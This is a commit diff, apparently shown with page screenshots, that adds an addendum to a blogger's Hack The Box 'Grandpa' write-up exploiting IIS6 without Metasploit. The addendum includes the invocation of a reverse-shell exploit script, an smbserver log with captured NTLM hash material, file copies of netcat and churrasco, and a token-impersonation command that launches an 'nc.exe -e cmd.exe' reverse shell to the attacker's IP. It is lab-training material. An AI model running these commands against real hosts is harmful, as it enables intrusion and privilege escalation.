

Before and after one commit to 0xordinaryday/blog, a Jekyll site: the page built from hacking/_posts/2021-03-14-grandpa.md, in a window 1280 px wide and 1400 px high, scrolled down 2225 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2855 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
addendum grandpa

```diff
--- a/hacking/_posts/2021-03-14-grandpa.md
+++ b/hacking/_posts/2021-03-14-grandpa.md
@@ -109,3 +109,96 @@ nt authority\system
 {% endhighlight %}
 
 I'm going to do this again tomorrow **without** Metasploit by following a walkthrough.
+
+
+## Addendum
+So I went back to this to try it without MSF. I looked at a couple of write-ups, but they used identical tooling. Foothold was via this [python](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell) script. The script contains a whole bunch of shellcode, so it's not really any clear what it does, so nothing really gained in terms of understanding compared to using Metasploit..
+
+Anyway, it's invoked like so:
+
+``
+python shell.py 10.10.10.14 80 10.10.14.5 1234
+``
+
+And you catch the shell in a listener. Next, people used a 'token impersonation' attack for privesc with a binary called [churrasco](https://github.com/Re4son/Churrasco). It's copied to a directory that we have write access to (which we conveniently have at C:\wmpub), then executed. Copy it along with netcat using *smbserver*:
+
+{% highlight shell %}
+┌──(root💀kali)-[/opt/htb/grandpa]
+└─# python3 /usr/share/doc/python3-impacket/examples/smbserver.py share .
+Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
+
+[*] Config file parsed
+[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
+[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
+[*] Config file parsed
+[*] Config file parsed
+[*] Config file parsed
+[*] Incoming connection (10.10.10.14,1031)
+[*] AUTHENTICATE_MESSAGE (\,GRANPA)
+[*] User GRANPA\ authenticated successfully
+[*] :::00::aaaaaaaaaaaaaaaa
+[*] AUTHENTICATE_MESSAGE (HTB\GRANPA$,GRANPA)
+[*] User GRANPA\GRANPA$ authenticated successfully
+[*] GRANPA$::HTB:d62c92d82cb9dafc00000000000000000000000000000000:6521e6930e53d3e7c9bb0cbbcb53eb6a8d769dc217d66bbc:aaaaaaaaaaaaaaaa
+# etc
+{% endhighlight %}
+
+Copy the files:
+
+{% highlight shell %}
+C:\wmpub>icacls C:\wmpub
+icacls C:\wmpub
+C:\wmpub BUILTIN\Administrators:(F)
+         BUILTIN\Administrators:(I)(OI)(CI)(F)
+         NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
+         CREATOR OWNER:(I)(OI)(CI)(IO)(F)
+         BUILTIN\Users:(I)(OI)(CI)(RX)
+         BUILTIN\Users:(I)(CI)(AD)
+         BUILTIN\Users:(I)(CI)(WD)
+
+Successfully processed 1 files; Failed processing 0 files
+
+C:\wmpub>copy \\10.10.14.5\share\nc.exe .
+copy \\10.10.14.5\share\nc.exe .
+        1 file(s) copied.
+
+C:\wmpub>dir
+dir
+ Volume in drive C has no label.
+ Volume Serial Number is 246C-D7FE
+
+ Directory of C:\wmpub
+
+03/16/2021  10:59 AM    <DIR>          .
+03/16/2021  10:59 AM    <DIR>          ..
+03/16/2021  10:52 AM            59,392 nc.exe
+04/12/2017  04:05 PM    <DIR>          wmiislog
+               1 File(s)         59,392 bytes
+               3 Dir(s)  18,093,953,024 bytes free
+
+C:\wmpub>copy \\10.10.14.5\share\churrasco.exe c.exe
+copy \\10.10.14.5\share\churrasco.exe c.exe
+        1 file(s) copied.
+{% endhighlight %}
+
+And execute it; anything called after **-d** will be executed as system:
+
+{% highlight shell %}
+C:\wmpub>.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.5 1235"
+.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.5 1235"
+Program too big to fit in memory
+{% endhighlight %}
+
+Ahhhhh, WTF? This is the same as [0xdf](https://0xdf.gitlab.io/2020/05/28/htb-grandpa.html) did:
+
+>C:\wmpub>.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.47 443"
+
+But it worked for him, and not for me. Grrrr. Try this then:
+
+``
+C:\wmpub>.\c.exe -d "type C:\Users\Administrator\Desktop\root.txt"
+``
+
+>Program too big to fit in memory
+
+Dunno why I bothered really.
```
